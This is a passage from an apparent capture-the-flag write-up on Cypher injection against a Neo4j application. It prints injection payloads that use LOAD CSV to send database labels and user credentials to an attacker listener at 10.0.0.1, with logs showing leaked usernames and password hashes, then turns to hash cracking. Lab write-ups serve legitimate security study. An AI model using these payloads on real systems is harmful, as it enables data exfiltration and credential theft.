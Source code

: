 ```
10.10.11.210 - - [02/May/2023 14:40:59] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -

```
Boom! it works, thats fantastic, now some more info.

Second get lables:
```
' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.0.0.1/?label='+label as l RETURN 0 as _0 //
```
Output:

```

10.10.11.210 - - [02/May/2023 14:43:00] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:00] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:00] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:00] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:01] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:01] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:01] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:43:01] "GET /?label=employee HTTP/1.1" 200 -

```
Ok we got user and employee. user looks more interesting.

Third get properties of user:
```
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.0.1/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```
Output:

```

10.10.11.210 - - [02/May/2023 14:44:19] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:20] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:20] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:20] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:20] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:20] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:21] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:21] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:21] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:21] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:22] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:22] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [02/May/2023 14:44:22] "GET /?username=john HTTP/1.1" 200 -

```
And we got two users, the first admin, second john. Lets try and crack those hashes. Always before I go to hash cat I got the a site called https://crackstation.net/ it's a great hash crack and it's way faster you it's an easy hash. So I added those to passwords and found:
